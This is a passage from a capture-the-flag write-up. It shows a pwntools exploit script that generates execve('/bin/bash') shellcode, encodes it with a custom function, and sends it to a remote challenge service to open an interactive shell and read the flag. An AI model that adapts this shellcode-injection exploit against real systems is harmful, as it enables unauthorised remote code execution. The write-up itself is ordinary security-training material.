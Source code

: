 ```python
#                    EXPLOIT GOES HERE
#===========================================================

shellcode = f"""
{shellcraft.execve('/bin/bash')}
"""

payload = generate_shellcode(asm(shellcode))

size = len(payload)
with start() as p:
    if args.REMOTE:
        p.recvuntil(b'please:')
        p.sendline(os.environ.get('HASHIT_TICKET').encode())
    p.send(p32(size, endian='big'))
    p.send(payload)
    p.interactive()
```

The payload, which is `execve('/bin/bash')`, is produced by the [pwntools](https://docs.pwntools.com/en/stable/) library, and then transformed by the `generate_shellcode()` function. Running the exploit, we get a fully functional remote shell, and we can simply `cat` the flag.
